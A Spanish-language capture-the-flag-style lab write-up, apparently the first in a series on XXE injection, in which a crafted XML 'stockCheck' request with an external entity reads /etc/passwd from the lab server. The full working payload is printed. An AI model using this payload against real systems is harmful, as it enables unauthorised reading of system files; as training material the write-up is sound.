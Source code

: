 <br>

Ahora que sabemos que podemos inyectar entidades entonces inyectaremos una entidad externa para tomar los datos de /etc/passwd, para ello hacemos lo siguiente:

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Recordamos que usando el wrapper **"file://"** podemos recuperar datos de un archivo.

Al tramitar la petición veremos lo siguiente:

![xml](/assets/images/LabsXXE/lab1/passwd.png)

Podemos apreciar que nos ha dado el archivo /etc/passwd, y hemos terminado con este primer laboratorio:

![end](/assets/images/LabsXXE/lab1/end.png)
